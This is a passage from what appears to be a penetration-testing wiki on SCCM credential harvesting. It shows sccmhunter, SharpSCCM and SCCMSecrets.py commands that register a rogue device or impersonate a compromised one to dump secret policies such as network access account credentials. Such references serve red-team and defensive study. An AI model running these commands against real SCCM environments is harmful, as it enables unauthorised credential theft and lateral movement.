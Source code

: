 The [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) tool also implements `sccmwtf`, but with the same limitations.
```bash
#Create a new computer account and request the policies
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -auto

#To use an already controlled computer account
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -cn $COMPUTER_NAME -cp $COMPUTER_PASSWORD -dc-ip $DC_IP
```

=== Windows-based

On Windows, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used to register a device and dump secret policies. All secret policies associated with the default collections for the newly registered device (including NAAs, Task sequences and collection variables) will be dumped.

```powershell
.\SharpSCCM.exe get secrets -r newdevice -u $MACHINE_NAME -p $PASSWORD
```

:::

Instead of registering a new device, it is also possible to **use an already compromised SCCM device** in order to dump secret policies. Note that this can also be interesting as the compromised device may be part of specific device collections associated with more task sequences or collection variables than the default collections we dumped by registering a device ourselves.

::: tabs

=== Unix-based

In order to use a compromised SCCM device, it is first necessary to **extract the SCCM certificates** from the machine. More details on how to do this [here](https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial#part_4).

With the SCCM device private key and GUID, [SCCMSecrets.py](https://github.com/synacktiv/SCCMSecrets/) (Python) can be used to impersonate the device and dump secret policies (in the example below, the `compromised_device/` folder contains the `key.pem` and `guid.txt` files).

All secret policies associated with the compromised device's collections (including NAAs, Task sequences and collection variables) will be dumped.

```bash
# Plain HTTP
python3 SCCMSecrets.py policies -mp http://$MP_IP --use-existing-device compromised_device/

# HTTPS with client certificate authentication
python3 SCCMSecrets.py policies -mp http://$MP_IP --use-existing-device compromised_device/ --pki-cert cert.pem --pki-key key.pem
```


=== Windows-based

From a local administrator access on the machine of a compromised SCCM device, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be executed to use the local SCCM device and dump secret policies.
